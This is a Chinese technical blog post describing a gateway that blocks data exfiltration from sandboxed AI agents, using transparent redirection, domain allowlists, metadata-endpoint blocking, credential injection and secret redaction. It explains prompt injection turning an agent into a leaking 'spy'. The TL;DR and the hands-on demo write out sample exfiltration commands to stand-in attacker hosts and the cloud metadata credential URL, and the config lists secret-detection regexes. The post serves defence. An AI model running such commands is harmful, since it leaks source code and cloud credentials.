

**TL;DR：** 在自主 AI Agent 的安全防御纵深中，堵住本地操作系统与内核的逃逸漏洞（如使用 gVisor）仅仅完成了一半工作。对于攻击者而言，**最优雅、破坏力最大的渗透方式从来不是提权攻陷宿主机，而是利用提示词注入（Prompt Injection）欺骗 Agent，使其成为“合法的间谍”** —— 通过一条普通的 `curl -X POST https://attacker.com/leak` 命令，将沙箱内的源代码、客户敏感数据或云厂商 API 秘钥大摇大摆地发送出去。传统 Kubernetes 基于 L3/L4 的 `NetworkPolicy` 在此完全失效，因为现代云服务（GitHub、OpenAI、PyPI）全隐藏在动态变化的公共 CDN 之后，根本无法配置固定的 IP CIDR 白名单。Google AX 的 **`Gateway` 原语** 从根本上重塑了出站网络安全模型：通过内核透明重定向、**基于 TLS SNI 与 Host 头的应用层严格白名单**、**私网与元数据服务（169.254.169.254）绝对死锁**，以及**“动态凭据网关注入与流式机密剥离（Secret Redaction）”**，使 Agent 在即使彻底被诱导叛变的情况下，也绝无可能将任何凭据带出沙箱半步。

---

## 一、 静默的背叛：为什么 NetworkPolicy 防不住 Agent 数据外发？

回顾传统的 Kubernetes 网络安全模型，平台工程团队通常依赖 CNI 插件（如 Calico 或 Cilium）编写 `NetworkPolicy`：

```yaml
# 传统的 Kubernetes NetworkPolicy 伪配置
kind: NetworkPolicy
spec:
  egress:
    - to:
        - ipBlock:
            cidr: 192.30.252.0/22 # 尝试硬编码 GitHub 的 IP 段？
```

在 AI Agent 场景下，这套机制彻底瓦解：

```
                    【传统 NetworkPolicy 在 Agent 面临的系统性失灵】

     Agent 发起外发请求: curl https://api.github.com/repos/...
              │
              ▼
   ┌────────────────────────────────────────────────────────┐
   │  传统 L3/L4 NetworkPolicy (基于 IP 与端口)             │
   │  • 无法解析域名语义: GitHub 背后有数万个动态 CDN Anycast IP│
   │  • 无法感知 HTTP 报文内容: 无法分辨发的是代码还是漏洞报告 │
   │  • 如果放行 443 端口，攻击者直接把数据推向自己的公网 VPS! │
   └──────────────────────────┬─────────────────────────────┘
                              │ 彻底穿透！
                              ▼
        [ 攻击者公网控制服务器 (https://attacker-c2.com:443) ]
        收到了企业核心支付模块源码与 AWS 根凭据！
```

### 传统 L3/L4 防火墙的三大死穴
1. **动态 CDN 与 IP 漂移**：
   - 现代软件开发所依赖的全部上游基础设施（GitHub、npm、PyPI、Google Vertex AI、Anthropic）均部署在全球 Anycast CDN 之后，其底层 IP 池每时每刻都在变动。如果试图用 CIDR 规则覆盖，最终只能妥协为 `0.0.0.0/0`（放行全网 443 端口），防护直接形同虚设；
2. **应用层盲区（L7 Blindness）**：
   - L3/L4 防火墙只检查 TCP 三次握手和五元组，根本看不懂 HTTP 报文。一个向正常 GitHub 提交 Issue 的请求，和一个向恶意服务器外发窃取数据的 `POST` 请求，在防火墙眼里没有任何区别；
3. **SSRF 与云元数据投毒（Cloud Metadata Exfiltration）**：
   - 部署在 AWS、GCP 或阿里云上的 Kubernetes 节点，其物理网卡都可以直连云元数据服务端点（**`http://169.254.169.254`**）；
   - 如果 Agent 被注入恶意提示词：`curl http://169.254.169.254/latest/meta-data/iam/security-credentials/`，便可在毫秒级窃取到挂载在宿主机底层 IAM 角色的最高临时密钥，引发整个企业云上基础设施的全面沦陷！

---

## 二、 Google AX Gateway 架构：四重零信任纵深防御圈

针对上述危机，Google AX 设计了一套与沙箱底层无缝咬合的 **四重零信任网关防御拓扑**：

```
                    ┌────────────────────────────────────────────────────────┐
                    │               Google AX Gateway 零信任四重防线          │
                    └────────────────────────────────────────────────────────┘
                                                │
   [ 沙箱内部 Agent (Bash/Python) ] ────────────┼────────────────────────────┐
   执行: curl https://api.github.com/upload      │                            │
                                                ▼                            │
   ┌──────────────────────────────────────────────────────────────────────┐  │
   │ 第一道防线: 内核级透明劫持 (Transparent eBPF / iptables Redirection) │  │
   │ • 绕过沙箱内部环境变量 (无需配置 HTTP_PROXY, 彻底防篡改)             │  │
   │ • 将沙箱内全部出站流量原子重定向至本地宿主网关代理                     │  │
   └────────────────────────────────────┬─────────────────────────────────┘  │
                                        │                                    │
                                        ▼                                    │
   ┌──────────────────────────────────────────────────────────────────────┐  │
   │ 第二道防线: 私网阻断与 Anti-SSRF 引擎 (Private IP Blackholing)       │  │
   │ • 绝对物理阻断目标为 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16 流量   │  │
   │ • 绝对阻断 169.254.169.254 (云厂商元数据服务)，就地丢弃并告警        │  │
   └────────────────────────────────────┬─────────────────────────────────┘  │
                                        │                                    │
                                        ▼                                    │
   ┌──────────────────────────────────────────────────────────────────────┐  │
   │ 第三道防线: L7 SNI 域名白名单与证书校验 (SNI Strict Allowlist)      │  │
   │ • 仅放行 spec.rules 中显式声明的 FQDN 域名 (如 api.github.com)       │  │
   │ • 拦截一切直接通过裸 IP 访问外部服务器的非法连接                      │  │
   └────────────────────────────────────┬─────────────────────────────────┘  │
                                        │                                    │
                                        ▼                                    │
   ┌──────────────────────────────────────────────────────────────────────┐  │
   │ 第四道防线: 凭据网关注入与流式敏感信息脱敏 (Secret Redaction)        │  │
   │ • 沙箱内只持有虚拟假 Token (Bearer $VIRTUAL_TOKEN)                  │  │
   │ • 网关在出站时动态注入真实 Secret; 实时扫描出站报文, 屏蔽 AK/SK     │  │
   └────────────────────────────────────┬─────────────────────────────────┘  │
                                        │                                    │
                                        ▼                                    │
                           [ 授权外部服务 (GitHub / PyPI) ]                  │
```

### 1. 内核级透明重定向：消除“配置依赖”
在很多自研系统中，安全团队要求开发者在容器里配置 `export HTTP_PROXY=http://gw:8080`。
- **这种设计极其幼稚**：具有 Root 权限或执行任意 Shell 的 Agent，只需敲一行 `unset HTTP_PROXY`，或者直接发起裸 TCP Socket 连接，就能轻松绕过代理；
- **AX 的实现**：在沙箱启动时，由 `agent-substrate-worker` 通过 Linux eBPF 或网络命名空间内部的 `iptables PREROUTING/OUTPUT` 链，强制将沙箱内发出的所有目的端口为 80/443 的 TCP 连接**透明重定向（TPROXY）**到本地的 Envoy 网关实例。Agent 进程本身对此毫无感知，根本无法绕过。

### 2. 绝对阻断私网与云元数据（Anti-SSRF）
AX Gateway 默认开启硬件级阻断：
- 任何试图流向 RFC 1918 规定的私有内网 IP 段（`10.0.0.0/8`、`172.16.0.0/12`、`192.168.0.0/16`）的流量，在网关握手阶段直接抛出 `TCP RST`；
- **针对云元数据端点 `169.254.169.254` 设立最高阻断等级**。任何尝试探测该 IP 的连接，不仅立刻切断，而且会直接向 `Task.status` 投递一次严重安全违规事件（`SecurityViolationEvent`）。

---

## 三、 声明式 `Gateway` 规范深度剖析

我们来看一份定义极其严密的生产级 `Gateway` 资源清单：

```yaml
apiVersion: ax.io/v1alpha1
kind: Gateway
metadata:
  name: payment-agent-zero-trust-gw
  namespace: default
spec:
  # 1. 拦截模式：严格全白名单 (未显式允许者全部拒绝)
  mode: StrictAllowlist

  # 2. 出站白名单规则集
  rules:
    - host: "api.github.com"
      ports: [443]
      protocol: HTTPS
      description: "用于通过 GitHub REST API 提交 PR"
    - host: "objects.githubusercontent.com"
      ports: [443]
      protocol: HTTPS
      description: "GitHub LFS 与 Release 二进制下载"
    - host: "pypi.org"
      ports: [443]
      protocol: HTTPS
    - host: "files.pythonhosted.org"
      ports: [443]
      protocol: HTTPS

  # 3. 动态凭据注入策略 (Outbound Credential Injection)
  credentialInjection:
    - targetHost: "api.github.com"
      matchPathPrefix: "/"
      headerName: "Authorization"
      valueSecretRef:
        name: enterprise-github-pat
        key: token
      # 模板化注入: 真实 Token 绝不下发进沙箱！
      format: "Bearer %s"

  # 4. 机密数据流式扫描与遮蔽 (Secret Redaction)
  dataLossPrevention:
    enabled: true
    action: BlockAndAudit # 检测到外发泄密立刻切断连接并审计
    patterns:
      - name: AWS_ACCESS_KEY
        regex: "(?i)AKIA[0-9A-Z]{16}"
      - name: RSA_PRIVATE_KEY
        regex: "-----BEGIN [A-Z ]*PRIVATE KEY-----"
      - name: JWT_TOKEN
        regex: "eyJ[A-Za-z0-9-_=]+\\.[A-Za-z0-9-_=]+\\.?[A-Za-z0-9-_.+/=]*"
```

---

## 四、 核心杀手锏：动态凭据注入与出站机密剥离（Secret Redaction）

在传统的 Agent 架构中，如果 Agent 需要向 GitHub 提交代码，开发者通常会把 `GITHUB_TOKEN` 作为环境变量直接传给容器。
- 这意味着：**一旦大模型被越狱，攻击者让 Agent 执行 `env`，你的生产 GitHub Token 就瞬间赤裸暴露了！**

AX 提出了划时代的**“沙箱内零凭据（Zero-Secret Sandbox）”**机制：



### 1. 真实 Token 从未进入沙箱
- 沙箱内的环境里，Agent 只能看见一个伪造的占位符（例如 `Bearer AX_MANAGED_GITHUB_TOKEN`）；
- 真实的 GitHub PAT、OpenAI API Key、私有数据库密码，**物理存储在 K8s 控制面受 RBAC 严密保护的 Secret 中**；
- 只有当请求流经宿主机上的 `AX Gateway` 时，网关插件才在出站报文离开物理机的那一微秒，在内存中动态将占位符替换为真实凭据。
- **效果**：哪怕攻击者把沙箱内部的内存全部 DUMP 出来，他也只能拿到一堆无意义的占位符字符串，根本无法跨越物理机实施凭据复用！

### 2. 出站机密动态剥离（Secret Redaction）
如果 Agent 在生成代码或提交 PR 时，不小心把项目配置文件中的数据库密码、私钥明文打印在了提交的 PR 描述（Body）中怎么办？
- AX Gateway 内部集成了基于 SIMD 指令加速的高性能正则匹配引擎（Hyperscan）；
- 它实时扫描所有出站 HTTP Request Body；
- 一旦匹配到 AWS AK/SK、私钥或者匹配到 `patterns` 中定义的机密形状：
  - 如果策略是 `Redact`：网关自动将对应明文重写为 `[AX_REDACTED_SECRET]`；
  - 如果策略是 `BlockAndAudit`：网关立刻切断 TCP 连接，返回 `HTTP 403 Forbidden`，并在控制台实时发出安全告警！

---

## 五、 实战演练：在终端现场体验出站外逃防御

让我们用 `ax ssh` 再次切入一个受该 Gateway 保护的 Agent 沙箱，以白帽黑客的视角现场验证这套防御体系。

```bash
# 1. 穿透进入沙箱调试环境
ax ssh payment-refactor-job-001

# 2. 尝试向未在白名单中的攻击者服务器发起外发
(sandbox-env) root@ax-sandbox:/workspace# curl -X POST https://evil-hacker.com/dump -d @/workspace/billing.py
curl: (7) Failed to connect to evil-hacker.com port 443: 
Connection reset by peer (AX_GATEWAY_DENIED: Host 'evil-hacker.com' not in Gateway allowlist!)

# 3. 尝试直接通过裸 IP 绕过域名检测
(sandbox-env) root@ax-sandbox:/workspace# curl -k https://198.51.100.42:443/
curl: (7) Failed to connect to 198.51.100.42 port 443: 
Connection refused (AX_GATEWAY_DENIED: Raw IP connection prohibited under StrictAllowlist mode)

# 4. 尝试探测云厂商元数据端点窃取 IAM 角色
(sandbox-env) root@ax-sandbox:/workspace# curl http://169.254.169.254/latest/meta-data/
curl: (7) Failed to connect to 169.254.169.254 port 80: 
Connection closed (AX_GATEWAY_CRITICAL: Anti-SSRF blackhole triggered for cloud metadata service!)
```

当这套攻击尝试被拦截后，退出沙箱，我们在宿主机侧执行 `ax inspect gateway payment-agent-zero-trust-gw`，将看到清晰完整的入侵审计流：

```text
TIMESTAMP                 AGENT_TASK                    VIOLATION_TYPE            TARGET
2026-10-04T14:22:01Z      payment-refactor-job-001      HostNotAllowlisted        evil-hacker.com:443
2026-10-04T14:22:15Z      payment-refactor-job-001      RawIPProhibited           198.51.100.42:443
2026-10-04T14:22:28Z      payment-refactor-job-001      AntiSSRFBlackhole         169.254.169.254:80 [HIGH SEVERITY]
```

每一笔试图外逃的数据，在物理层面被钉死在沙箱之内！

---

## 总结与专栏预告

Google AX 的 `Gateway` 原语，代表了云原生安全从传统的“网络层粗放包过滤”向**“Agent 应用层零信任语义防御”**的决定性跨越：
1. **透明内核劫持**：彻底粉碎了客户端可篡改代理环境变量的脆弱假设；
2. **SNI 域名全白名单**：用动态应用层识别化解了现代 CDN 架构下 IP 漂移的千古难题；
3. **真实凭据完全脱敏**：让不可信代码在真空中运行，彻底根除了通过越狱窃取企业最高凭证的可能性。

至此，我们已经完整攻克了 Google AX 的执行（Task）、环境（Workspace）、工具（MCP）与网络（Gateway）四大核心支柱。

但还有一个终极大题摆在所有企业面前：**在千卡级并发集群中，大模型 API 往往多厂商混排（Gemini、Claude、OpenAI），如何实现模型的统一路由、智能回退、Token 预算控制，并在 AX 与 Ray、Temporal 之间做出终极架构抉择？**

下一篇，我们将迎来全系列的终局之作：**《终局思辨与生产指南：Model 统一治理、Token 成本控制与架构权衡矩阵》**！

---

## 参考资料与权威出处

1. **Google AX Gateway 原语官方规范**：[agentexecutor.io/docs/reference/gateway-spec](https://agentexecutor.io/docs/reference/gateway-spec)
2. **Envoy Proxy 外部处理器（External Processor - ExtProc）架构**：[envoyproxy.io/docs/envoy/latest/configuration/http/http_filters/ext_proc_filter](https://www.envoyproxy.io/docs/envoy/latest/configuration/http/http_filters/ext_proc_filter)
3. **OWASP Top 10 for LLM: Server-Side Request Forgery (SSRF) in AI Systems**：[owasp.org/www-project-top-10-for-large-language-model-applications/](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
4. **RFC 6066: Transport Layer Security (TLS) Extensions - Server Name Indication (SNI)**：[datatracker.ietf.org/doc/html/rfc6066](https://datatracker.ietf.org/doc/html/rfc6066)
5. **Zero Trust Architecture (NIST Special Publication 800-207)**：[csrc.nist.gov/publications/detail/sp/800-207/final](https://csrc.nist.gov/publications/detail/sp/800-207/final)
